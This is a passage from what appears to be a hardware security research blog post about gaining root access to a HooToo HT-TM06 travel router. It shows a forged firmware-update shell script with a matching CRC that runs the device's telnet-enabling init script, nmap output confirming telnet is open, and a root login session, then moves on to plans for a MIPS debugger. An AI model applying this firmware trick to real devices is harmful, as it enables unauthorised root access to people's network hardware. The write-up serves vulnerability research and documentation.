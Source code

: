 With this information, I constructed another shell script with a proper CRC checksum this time:

```bash
#!/bin/sh
# constant
CRCSUM=2787560248
VENDOR=HooToo
PRODUCTLINE=WiFiDGRJ
SKIP=263
TARGET_OS="linux"
TARGET_ARCH="arm"
DEVICE_TYPE=HT-TM06
VERSION=2000030
CPU=7620

/bin/sh /etc/init.d/opentelnet.sh

exit 1
```

Those other lines are a copy/paste by product. Since the CRC was already generated, I didn't want to take them out. Upon uploading this as a firmware update, the device gave me an error. However, doing a network scan, I saw that telnet was open! This means that the error was generated by the `exit 1`, rather than by incompatible firmware.

```
$ nmap 192.168.1.1
Nmap scan report for 192.168.1.1
Host is up (0.0092s latency).
PORT   STATE SERVICE
23/tcp open  telnet
80/tcp open  http
81/tcp open  hosts2-ns

Nmap done: 1 IP address (1 host up) scanned in 0.19 seconds
```

The custom update enabled us to login using the cracked root password:

```
$ telnet 192.168.1.1
Connected to 192.168.1.1.
Escape character is '^]'.

HT-TM06 login: root
Password:
login: can't chdir to home directory '/root'
# ls
bin     data    etc     home    media   opt     sbin    tmp     var
boot    dev     etc_ro  lib     mnt     proc    sys     usr     www
# Connection closed by foreign host.
```

We are in business! Getting a command shell on an embedded device is so exciting :-) But, let's move on. The title of this section is 'Getting a debugger' and that is what I want. GDB comes to mind, however, I do not find it on the device. This means we will have to find a version that runs on MIPS. After some googling, I found that [Rapid7](https://github.com/rapid7/embedded-tools) has actually published a version of the GDB server that runs on MIPS. Although, we have a terminal session on the device, there's not really a good way of uploading files to it. However, it does automatically mount USB storage devices which is super convenient.
